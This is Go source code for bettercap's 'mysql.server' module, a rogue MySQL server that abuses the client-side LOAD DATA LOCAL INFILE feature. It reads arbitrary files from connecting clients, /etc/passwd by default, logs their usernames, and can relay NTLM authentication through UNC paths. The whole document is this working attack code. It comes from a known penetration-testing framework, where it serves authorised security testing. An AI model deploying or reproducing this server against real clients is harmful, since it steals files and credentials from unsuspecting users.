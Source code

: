```
`package mysql_server``import (` `"bufio"` `"bytes"` `"fmt"` `"io/ioutil"` `"net"` `"strings"` `"github.com/bettercap/bettercap/packets"` `"github.com/bettercap/bettercap/session"` `"github.com/evilsocket/islazy/tui"``)``type MySQLServer struct {` `session.SessionModule` `address  *net.TCPAddr` `listener *net.TCPListener` `infile   string` `outfile  string``}``func NewMySQLServer(s *session.Session) *MySQLServer {` `mod := &MySQLServer{` `SessionModule: session.NewSessionModule("mysql.server", s),` `}` `mod.AddParam(session.NewStringParameter("mysql.server.infile",` `"/etc/passwd",` `"",` `"File you want to read. UNC paths are also supported."))` `mod.AddParam(session.NewStringParameter("mysql.server.outfile",` `"",` `"",` `"If filled, the INFILE buffer will be saved to this path instead of being logged."))` `mod.AddParam(session.NewStringParameter("mysql.server.address",` `session.ParamIfaceAddress,` `session.IPv4Validator,` `"Address to bind the mysql server to."))` `mod.AddParam(session.NewIntParameter("mysql.server.port",` `"3306",` `"Port to bind the mysql server to."))` `mod.AddHandler(session.NewModuleHandler("mysql.server on", "",` `"Start mysql server.",` `func(args []string) error {` `return mod.Start()` `}))` `mod.AddHandler(session.NewModuleHandler("mysql.server off", "",` `"Stop mysql server.",` `func(args []string) error {` `return mod.Stop()` `}))` `return mod``}``func (mod *MySQLServer) Name() string {` `return "mysql.server"``}``func (mod *MySQLServer) Description() string {` `return "A simple Rogue MySQL server, to be used to exploit LOCAL INFILE and read arbitrary files from the client."``}``func (mod *MySQLServer) Author() string {` `return "Bernardo Rodrigues (https://twitter.com/bernardomr)"``}``func (mod *MySQLServer) Configure() error {` `var err error` `var address string` `var port int` `if mod.Running() {` `return session.ErrAlreadyStarted(mod.Name())` `} else if err, mod.infile = mod.StringParam("mysql.server.infile"); err != nil {` `return err` `} else if err, mod.outfile = mod.StringParam("mysql.server.outfile"); err != nil {` `return err` `} else if err, address = mod.StringParam("mysql.server.address"); err != nil {` `return err` `} else if err, port = mod.IntParam("mysql.server.port"); err != nil {` `return err` `} else if mod.address, err = net.ResolveTCPAddr("tcp", fmt.Sprintf("%s:%d", address, port)); err != nil {` `return err` `} else if mod.listener, err = net.ListenTCP("tcp", mod.address); err != nil {` `return err` `}` `return nil``}``func (mod *MySQLServer) Start() error {` `if err := mod.Configure(); err != nil {` `return err` `}` `return mod.SetRunning(true, func() {` `mod.Info("server starting on address %s", mod.address)` `for mod.Running() {` `if conn, err := mod.listener.AcceptTCP(); err != nil {` `mod.Warning("error while accepting tcp connection: %s", err)` `continue` `} else {` `defer conn.Close()` `// TODO: include binary support and files > 16kb` `clientAddress := strings.Split(conn.RemoteAddr().String(), ":")[0]` `readBuffer := make([]byte, 16384)` `reader := bufio.NewReader(conn)` `read := 0` `mod.Info("connection from %s", clientAddress)` `if _, err := conn.Write(packets.MySQLGreeting); err != nil {` `mod.Warning("error while writing server greeting: %s", err)` `continue` `} else if _, err = reader.Read(readBuffer); err != nil {` `mod.Warning("error while reading client message: %s", err)` `continue` `}` `// parse client capabilities and validate connection` `// TODO: parse mysql connections properly and` `//       display additional connection attributes` `capabilities := fmt.Sprintf("%08b", (int(uint32(readBuffer[4]) | uint32(readBuffer[5])<<8)))` `loadData := string(capabilities[8])` `username := string(bytes.Split(readBuffer[36:], []byte{0})[0])` `mod.Info("can use LOAD DATA LOCAL: %s", loadData)` `mod.Info("login request username: %s", tui.Bold(username))` `if _, err := conn.Write(packets.MySQLFirstResponseOK); err != nil {` `mod.Warning("error while writing server first response ok: %s", err)` `continue` `} else if _, err := reader.Read(readBuffer); err != nil {` `mod.Warning("error while reading client message: %s", err)` `continue` `} else if _, err := conn.Write(packets.MySQLGetFile(mod.infile)); err != nil {` `mod.Warning("error while writing server get file request: %s", err)` `continue` `} else if read, err = reader.Read(readBuffer); err != nil {` `mod.Warning("error while readind buffer: %s", err)` `continue` `}` `if strings.HasPrefix(mod.infile, "\\") {` `mod.Info("NTLM from '%s' relayed to %s", clientAddress, mod.infile)` `} else if fileSize := read - 9; fileSize < 4 {` `mod.Warning("unexpected buffer size %d", read)` `} else {` `mod.Info("read file ( %s ) is %d bytes", mod.infile, fileSize)` `fileData := readBuffer[4 : read-4]` `if mod.outfile == "" {` `mod.Info("\n%s", string(fileData))` `} else {` `mod.Info("saving to %s ...", mod.outfile)` `if err := ioutil.WriteFile(mod.outfile, fileData, 0755); err != nil {` `mod.Warning("error while saving the file: %s", err)` `}` `}` `}` `conn.Write(packets.MySQLSecondResponseOK)` `}` `}` `})``}``func (mod *MySQLServer) Stop() error {` `return mod.SetRunning(false, func() {` `defer mod.listener.Close()` `})``}`
```
